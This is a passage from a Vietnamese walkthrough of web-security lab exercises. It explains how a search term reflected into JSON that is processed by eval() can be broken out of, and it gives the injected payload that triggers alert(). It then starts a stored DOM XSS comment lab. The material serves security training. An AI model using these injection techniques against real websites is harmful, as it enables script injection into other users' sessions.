 Trong đó responseText là json format có cấu trúc như sau:

```jsonld=
{
   "results":[
      {
         "id":3,
         "title":"Faking It! - InstaCam",
         "image":"blog/posts/7.jpg",
         "summary":"..."
      }
   ],
   "searchTerm":"1"
}

```

Input của ta sẽ được reflected vào `searchTerm`

```jsonld=
{
    "results":[],
    "searchTerm":"aaaaaa"
}
```

Để bypass, ta cần đặt trong payload 1 dấu `"` ở trước và `}//` ở sau.

```jsonld=
{
    "results":[],
    "searchTerm":"\\"aaaa
}//"}
```
<hr>

Vì responseText được đặt trong hàm eval() nên nó sẽ được thực thi nếu có mệnh đề javascript trong đó.

```jsonld=
{
    "results":[],
    "searchTerm":"\\"+alert()
} //"}
```

Kết quả:

>![](https://i.imgur.com/fevhJ6b.png)

<hr>

### Bài 13: Stored DOM XSS
>![](https://i.imgur.com/FVNSTLZ.png)

Bài lab chứa lỗ hổng `stored DOM XSS` trong chức năng `comment`, khai thác và gọi hàm `alert()`

Source javascript của trang web nằm ở đường dẫn `/resources/js/loadCommentsWithVulnerableEscapeHtml.js`
